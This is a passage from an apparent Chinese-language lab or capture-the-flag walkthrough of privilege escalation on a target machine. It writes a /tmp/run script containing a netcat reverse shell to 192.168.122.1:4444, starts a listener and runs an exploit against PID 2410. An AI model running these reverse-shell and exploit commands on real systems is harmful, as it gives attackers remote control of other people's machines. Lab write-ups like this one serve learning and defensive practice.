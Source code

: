 ![图片描述](..\images\2021-01-23_109.jpg)

获取到 pid 为 2410，接下来我们创建 `/tmp/run` shell 脚本：

```bash
echo '#!/bin/bash' >> /tmp/run
echo 'nc 192.168.122.1 4444 -e /bin/bash' >> /tmp/run
chmod +x /tmp/run
```

![图片描述](..\images\2021-01-23_110.jpg)

`/tmp/run`脚本的内容如下：

```bash
#!/bin/bash
nc 192.168.122.1 4444 -e /bin/bash
```

这样，当该脚本被执行时，就会向 `192.168.122.1` 的 4444 端口反弹 shell，所以我们现在本地主机上使用 nc 监听 4444 端口：

```bash
nc -lnvp 4444
```

![图片描述](..\images\2021-01-23_111.jpg)

一切准备就绪，在靶机上执行如下命令：

```bash
./exploit 2410
```
